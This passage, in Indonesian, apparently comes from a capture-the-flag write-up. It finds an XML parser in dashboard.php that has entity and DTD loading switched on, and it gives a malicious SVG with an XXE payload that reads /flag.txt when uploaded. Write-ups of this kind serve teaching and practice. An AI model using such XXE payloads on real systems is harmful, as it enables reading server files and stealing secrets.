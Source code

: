     <img src="img/svg3.png" width="500">
  - Analisa file (`dashboard.php`).
  <br>
    <img src="img/svg4.png" width="500">
    <br>
    Ditemukan `$dom->load($path, LIBXML_NOENT | LIBXML_DTDLOAD);` Itu artinya kita bisa melakukan serangan XXE!
    <br>
  - Buat file SVG berbahaya yang berisi *payload* XXE untuk membaca file lokal (`/flag.txt`).
   <br>
     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE svg [
       <!ENTITY flag SYSTEM "file:///flag.txt">
     ]>
     <svg xmlns="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)">
       <title>&flag;</title>
     </svg>
     ```
      <br>
  - Unggah file SVG tersebut, dan flag akan muncul di judul gambar.